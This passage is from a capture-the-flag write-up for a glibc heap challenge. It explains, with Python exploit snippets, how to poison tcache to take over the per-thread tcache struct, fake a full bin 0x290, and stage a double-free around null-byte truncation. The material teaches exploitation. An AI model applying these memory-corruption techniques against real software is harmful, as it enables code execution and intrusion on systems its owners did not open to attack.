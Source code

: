 we receive a pointer to prethread_tcache_struct. After gaining control of prethread_tcache_struct, write 0x0707070707070707 to it to create the illusion that tcache bin 0x290 is full. <br>
Note that the target expects all input to be strings. As such, it will cut off input when it first encounters a null byte. An address typically contains a null byte in it, so this means
that we can only write one address at a time. Furthermore, the target sets the last byte of each card to a null byte. This would set the last byte of our address to 0x0, corrupting the address.
Therefore, we include a dummy byte at the end of the address for the target to set to a null byte so that it doesn't damage the actual address.
~~~python
    #calc addr of index for 0x290 chunks in prethread_tcache_struct 
    bin_290 = heap_base+0x48
    #overwrite the free chunk to link bin_290:
    #add an extra byte after the original addr bc the chall bin will set the last byte of our card to 0
    bin_290 = bin_290 | padding
    pushright(4, p64(bin_290))
    #get control of bin 290:
    pushright(2, "BBBB")
    pushright(2, "BBBB")
    #alloc and overwrite to be full:
    pushright(2, p64(0x0707070707070707))
~~~

### Free prethread_tcache_struct

In order to free prethread_tcache_struct we'll first obtain a pointer to one of the queuestacks. We'll free one of the `cards` arrays, which will lead glibc to write a pointer to prethread_tcache_struct
into the array. We can then call `popright()`/`popleft()` on the queuestack that uses that `cards` array to free prethread_tcache_struct.
First we'll reset `head` of queuestack 4 and `tail` of queuestack 3 to point at the same location again.
~~~python
    #this is mainly to reset tail & head for queues 3 & 4 back to where they were:
    pushright(3, ("A" * 0x20))
    pushleft(4, "CCCCCC")
~~~
Then we'll get a pointer to one of the `cards` array in the same way that we got a pointer to prethread_tcache_struct, just without all the fancy setup of queuestack 3 and queuestack 4 beforehand.
We'll be freeing the `cards` array of queuestack 2.
~~~python
    #now fill tcache up again!
    for i in range(6): 
        popright(1)
    #start popping from the start of 4 so as not to free the invalid pointer in prethread
    popleft(2)
    #pop off 1:
    popright(3)
    #pop a decoy off 4:
    popleft(2)
    #next trigger the double-free:
    popleft(4)
    #clear out tcache:
    for i in range(6):
        pushright(1, p64((heap_base+0x80) | padding))
    pushleft(2, p64((heap_base +0x80) | padding))
    #next overwrite to addr of queuestackarray 2:
    qstack2 = heap_base + 0x2d0
    qstack2 = qstack2 | padding
    pushright(2, p64(qstack2))
    #get a pointer to qstack2
    #write to 3
    pushright(3, p64(qstack2))
    pushright(3, p64(qstack2))
    #write addr of qstack2 to qstack 4:
~~~